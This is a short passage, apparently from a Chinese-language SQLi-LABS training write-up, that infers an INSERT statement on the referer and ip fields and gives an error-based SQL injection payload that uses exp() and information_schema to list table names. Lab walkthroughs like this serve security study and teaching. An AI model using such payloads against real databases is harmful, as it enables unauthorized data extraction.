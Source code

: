 ![image-20210929102339731](../../images/SQLi-LABS/image-20210929102339731.png)

+ 根据错误提示，我们可以推断出该语句为：

```sql
insert into table (..., `referer`, `ip`) values (..., 'referer', 'ip')
```

+ 使用下列语句进行注入：

```sql
123',exp(~(select * from (select group_concat(table_name) from information_schema.tables where table_schema=database())a)))-- '
```

![image-20210929103520548](../../images/SQLi-LABS/image-20210929103520548.png)
